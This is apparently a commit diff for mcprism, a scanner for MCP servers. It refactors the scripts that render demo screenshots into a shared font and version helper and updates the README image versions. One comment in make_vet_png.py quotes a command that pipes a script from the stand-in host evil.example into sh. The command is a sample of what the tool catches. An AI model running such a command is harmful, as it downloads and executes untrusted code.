

docs: refresh release demo screenshots

diff --git a/scripts/make_sast_png.py b/scripts/make_sast_png.py
@@ -1,13 +1,13 @@
 #!/usr/bin/env python3
 # Render a high-resolution static terminal shot of `mcprism vet` on a Go file.
 # The rows mirror the real table output of `mcprism vet internal/sast/testdata/vuln.go`.
-from PIL import Image, ImageDraw, ImageFont
+from PIL import Image, ImageDraw
+from demo_helpers import ROOT, load_fonts, release_metadata
 
-MONO = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf"
-MONOB = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf"
+DEMO_VERSION, DEMO_DATE = release_metadata()
+
 FS = 18
-font = ImageFont.truetype(MONO, FS)
-fontb = ImageFont.truetype(MONOB, FS)
+font, fontb = load_fonts(FS)
 
 BG = (24, 24, 37)
 FG = (205, 214, 244)
@@ -26,13 +26,13 @@ HBAR = 88
 def finding(sev, sevcol, rule, title, loc, code, advice):
     return [
         [("  " + sev.ljust(4) + " ", sevcol, True), (rule, DIM, False), ("  " + title, FG, False)],
-        [("      \u21b3 " + loc, DIM, False)],
+        [("      -> " + loc, DIM, False)],
         [("      " + code, sevcol, False)],
         [("      \u2192 " + advice, GREEN, False)],
     ]
 
 rows = [
-    [("\u25c6 mcprism", FG, True), ("   v0.7.0", DIM, False), ("  \u00b7 2026-10-12", DIM, False)],
+    [("\u25c6 mcprism", FG, True), ("   " + DEMO_VERSION, DIM, False), ("  \u00b7 " + DEMO_DATE, DIM, False)],
     [("\u2500" * HBAR, RULE, False)],
     [(" F ", RED, True), (" ", FG, False), ("vuln", FG, True),
      ("  ", FG, False), ("\u25cc static only", DIM, False)],
@@ -76,7 +76,6 @@ for ri, row in enumerate(rows):
         x += len(text) * CELLW
 
 import os as _os
-ROOT = _os.path.dirname(_os.path.dirname(_os.path.abspath(__file__)))
 out = _os.path.join(ROOT, "assets", "sast.png")
 img.save(out)
 print("saved", out, img.size)

diff --git a/scripts/make_demo_gif.py b/scripts/make_demo_gif.py
@@ -1,13 +1,13 @@
 #!/usr/bin/env python3
 # Render a short terminal recording of `mcprism scan` as a high-resolution GIF.
 import os
-from PIL import Image, ImageDraw, ImageFont
+from PIL import Image, ImageDraw
+from demo_helpers import ROOT, load_fonts, release_metadata
 
-MONO = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf"
-MONOB = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf"
+DEMO_VERSION, DEMO_DATE = release_metadata()
+
 FS = 16
-font = ImageFont.truetype(MONO, FS)
-fontb = ImageFont.truetype(MONOB, FS)
+font, fontb = load_fonts(FS)
 
 BG = (30, 30, 46)
 BAR = (24, 24, 37)
@@ -37,7 +37,7 @@ def fnd(sev, sc, title):
 rows = [
     None,  # 0 command line, filled per frame
     [("", FG, False)],
-    [("\u25c6 mcprism", FG, True), ("   v0.7.0", DIM, False), ("  \u00b7 2026-10-12", DIM, False)],
+    [("\u25c6 mcprism", FG, True), ("   " + DEMO_VERSION, DIM, False), ("  \u00b7 " + DEMO_DATE, DIM, False)],
     [("  " + "\u2500" * 62, RULE, False)],
     [(" F ", RED, True), (" ", FG, False), ("demo-server", FG, True),
      ("  ", FG, False), ("\u25cf connected", GREEN, False)],
@@ -128,7 +128,6 @@ frames.append(render(len(CMD), set(revealed)))
 durations.append(1800)
 
 import os as _os
-ROOT = _os.path.dirname(_os.path.dirname(_os.path.abspath(__file__)))
 out = _os.path.join(ROOT, "assets", "demo.gif")
 frames[0].save(out, save_all=True, append_images=frames[1:], duration=durations,
                loop=0, optimize=True, disposal=2)

diff --git a/scripts/demo_helpers.py b/scripts/demo_helpers.py
@@ -1,0 +1,33 @@
+#!/usr/bin/env python3
+"""Shared metadata and portable fonts for generated mcprism demo assets."""
+from pathlib import Path
+import re
+
+from PIL import ImageFont
+
+ROOT = str(Path(__file__).resolve().parent.parent)
+CHANGELOG = Path(ROOT) / "CHANGELOG.md"
+
+
+def release_metadata():
+    """Return the latest released version and date from the changelog."""
+    text = CHANGELOG.read_text(encoding="utf-8")
+    match = re.search(r"^## \[(\d+\.\d+\.\d+)\] - (\d{4}-\d{2}-\d{2})$", text, re.MULTILINE)
+    if not match:
+        raise RuntimeError(f"No released version found in {CHANGELOG}")
+    return f"v{match.group(1)}", match.group(2)
+
+
+def load_fonts(size):
+    """Load regular and bold monospace fonts on Windows, macOS, or Linux."""
+    candidates = [
+        (r"C:\Windows\Fonts\CascadiaMono.ttf", r"C:\Windows\Fonts\CascadiaMono.ttf"),
+        (r"C:\Windows\Fonts\consola.ttf", r"C:\Windows\Fonts\consolab.ttf"),
+        ("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf",
+         "/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf"),
+        ("/System/Library/Fonts/Menlo.ttc", "/System/Library/Fonts/Menlo.ttc"),
+    ]
+    for regular, bold in candidates:
+        if Path(regular).is_file() and Path(bold).is_file():
+            return ImageFont.truetype(regular, size), ImageFont.truetype(bold, size)
+    raise FileNotFoundError("Install Cascadia Mono, Consolas, DejaVu Sans Mono, or Menlo to render demo assets")

diff --git a/scripts/make_vet_png.py b/scripts/make_vet_png.py
@@ -1,13 +1,13 @@
 #!/usr/bin/env python3
 # Render a high-resolution terminal shot of `mcprism vet` catching a curl|sh launch.
 # Mirrors: mcprism vet 'bash -c "curl -s https://evil.example/install.sh | sh"'
-from PIL import Image, ImageDraw, ImageFont
+from PIL import Image, ImageDraw
+from demo_helpers import ROOT, load_fonts, release_metadata
 
-MONO = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf"
-MONOB = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf"
+DEMO_VERSION, DEMO_DATE = release_metadata()
+
 FS = 18
-font = ImageFont.truetype(MONO, FS)
-fontb = ImageFont.truetype(MONOB, FS)
+font, fontb = load_fonts(FS)
 
 BG = (24, 24, 37)
 FG = (205, 214, 244)
@@ -25,7 +25,7 @@ PAD = 20
 HBAR = 100
 
 rows = [
-    [("\u25c6 mcprism", FG, True), ("   v0.7.0", DIM, False), ("  \u00b7 2026-10-12", DIM, False)],
+    [("\u25c6 mcprism", FG, True), ("   " + DEMO_VERSION, DIM, False), ("  \u00b7 " + DEMO_DATE, DIM, False)],
     [("\u2500" * HBAR, RULE, False)],
     [(" F ", RED, True), (" ", FG, False), ("install", FG, True),
      ("  ", FG, False), ("\u25cc static only", DIM, False)],
@@ -61,7 +61,6 @@ for ri, row in enumerate(rows):
         x += len(text) * CELLW
 
 import os as _os
-ROOT = _os.path.dirname(_os.path.dirname(_os.path.abspath(__file__)))
 out = _os.path.join(ROOT, "assets", "vet.png")
 img.save(out)
 print("saved", out, img.size)

diff --git a/README.md b/README.md
@@ -44,7 +44,7 @@ probing is strictly opt-in (`--dynamic` / `--probe`).
 ---
 
 <p align="center">
-  <img src="assets/demo.gif?v=0.7.0" alt="mcprism scanning MCP servers in a terminal" width="78%">
+  <img src="assets/demo.gif?v=0.9.2" alt="mcprism scanning MCP servers in a terminal" width="78%">
 </p>
 
 <p align="center">
@@ -116,7 +116,7 @@ resources and prompts. A source tree or file goes through the SAST engine
 below, with no network needed.
 
 <p align="center">
-  <img src="assets/vet.png?v=0.7.0" alt="mcprism vet catching a curl|sh launch command" width="94%">
+  <img src="assets/vet.png?v=0.9.2" alt="mcprism vet catching a curl|sh launch command" width="94%">
 </p>
 
 ## Contents
@@ -190,13 +190,13 @@ below, with no network needed.
 ## Report
 
 <p align="center">
-  <img src="assets/screenshot-dynamic.png?v=0.7.0" alt="mcprism HTML report for a live server" width="86%">
+  <img src="assets/screenshot-dynamic.png?v=0.9.2" alt="mcprism HTML report for a live server" width="86%">
 </p>
 
 Batch review across many servers (static mode):
 
 <p align="center">
-  <img src="assets/screenshot-static.png?v=0.7.0" alt="mcprism HTML report across many servers" width="70%">
+  <img src="assets/screenshot-static.png?v=0.9.2" alt="mcprism HTML report across many servers" width="70%">
 </p>
 
 ## Install
@@ -502,7 +502,7 @@ analyzer and manual review. Rule details and more examples are in
 [docs/SAST.md](docs/SAST.md).
 
 <p align="center">
-  <img src="assets/sast.png?v=0.7.0" alt="mcprism source-code review findings" width="94%">
+  <img src="assets/sast.png?v=0.9.2" alt="mcprism source-code review findings" width="94%">
 </p>
 
 ## What it detects
